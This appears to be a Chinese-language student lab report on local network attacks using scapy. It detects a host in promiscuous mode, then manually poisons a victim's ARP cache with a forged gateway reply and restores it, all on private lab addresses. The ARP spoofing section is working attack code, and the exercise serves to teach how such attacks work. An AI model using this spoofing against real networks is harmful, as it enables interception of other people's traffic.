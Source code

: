 



# 实验

## 网络拓扑

- 攻击者主机
  - 08:00:27:d5:a6:c7 / eth0
  - 172.16.111.147
- 受害者主机
  - 08:00:27:97:0f:7c / eth0
  - 172.16.111.137
- 网关
  - 08:00:27:85:88:54 / enp0s9
  - 172.16.111.1

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scapy](img/安装scapy.PNG)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![混杂模式是否可用](img/混杂模式是否可用.PNG)

```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

![开启scapy](img/开启scapy.PNG)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.137")
```

![pkt](img/pkt.PNG)

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![打开混杂模式](img/打开混杂模式.PNG)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.137")
```

![差异](img/差异.PNG)

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![关闭混杂模式](img/关闭混杂模式.PNG)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![查看ARP](img/查看ARP.PNG)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![发送请求](img/发送请求.PNG)

```python

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.137
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.137", hwdst="08:00:27:d5:a6:c7")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![发送伪造的ARP](img/发送伪造的ARP.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![查看地址](img/查看地址.PNG)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:88:54", pdst="172.16.111.137", hwdst="08:00:27:97:0f:7c")
sendp(restorepkt1, count=100, inter=0.2)
```

![伪装网关发送ARP](img/伪装网关发送ARP.PNG)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![刷新记录](img/刷新记录.PNG)